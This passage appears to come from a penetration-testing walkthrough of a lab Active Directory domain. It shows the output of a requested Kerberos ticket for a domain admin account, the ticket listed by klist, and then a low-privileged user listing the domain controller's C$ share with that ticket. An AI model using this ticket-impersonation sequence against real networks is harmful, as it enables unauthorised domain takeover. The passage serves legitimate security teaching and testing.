 ```plain
  ServiceRealm             :  offsec.nl
  UserName                 :  johnDomainAdmin
  UserRealm                :  offsec.nl
  StartTime                :  1/19/2022 6:45:25 AM
  EndTime                  :  1/19/2022 4:45:25 PM
  RenewTill                :  1/26/2022 6:45:25 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  h85ETS[REDACTED]Za+4GEw==
  ASREP (key)              :  AFC858FA[REDACTED]49D1DE
```

With `klist` you can check the requested ticket is available.

```plain
PS C:\Windows\System32\WindowsPowerShell\v1.0> klist

Current LogonId is 0:0x58f55

Cached Tickets: (1)

#0>     Client: johnDomainAdmin @ offsec.nl
        Server: krbtgt/offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 1/19/2022 6:45:25 (local)
        End Time:   1/19/2022 16:45:25 (local)
        Renew Time: 1/26/2022 6:45:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

### Verify the requested ticket is usable

```plain
PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
offsec\johndo-lowpriv

PS Z:\> dir  \\DC01PKI.offsec.nl\c$


    Directory: \\DC01PKI.offsec.nl\c$


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        12/11/2019  12:08 AM                PerfLogs
d-r---         1/11/2022   1:28 AM                Program Files
d-----         1/11/2022   1:29 AM                Program Files (x86)
d-r---         1/18/2022  12:44 AM                Users
d-----         1/19/2022   6:25 AM                Windows
```
